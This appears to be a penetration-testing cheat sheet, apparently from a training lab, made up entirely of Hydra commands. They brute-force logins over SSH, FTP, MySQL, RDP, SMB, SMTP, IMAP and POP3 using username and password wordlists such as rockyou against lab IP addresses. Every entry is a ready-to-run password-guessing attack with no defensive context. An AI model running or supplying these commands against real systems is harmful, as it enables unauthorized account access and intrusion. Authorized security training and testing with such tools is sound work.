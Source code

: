 ### SSH
```shell
hydra -L user.list -P password.list ssh://10.129.42.197 -t 64
```
### FTP
```
hydra -L users.list -P passwords.list ftp://10.129.203.6 -s 2121 -t 4
```
### MySQL
```
hydra -L usernames.txt -P pass.txt <ip> mysql
```
### RDP
```shell
hydra -L user.list -P password.list rdp://10.129.42.197
```
### SMB
```shell
hydra -L user.list -P password.list smb://10.129.42.197
```
### SMTP
```
hydra -L user.list -P /usr/share/wordlists/rockyou.txt smtp://10.129.203.12 -f
```
### IMAP
```
hydra -L user.list -P /path/to/passwords.txt -f <IP> imap -V
```
### POP3
```
hydra -L users.list -P pws.list -f 10.129.238.158 pop3 -V
```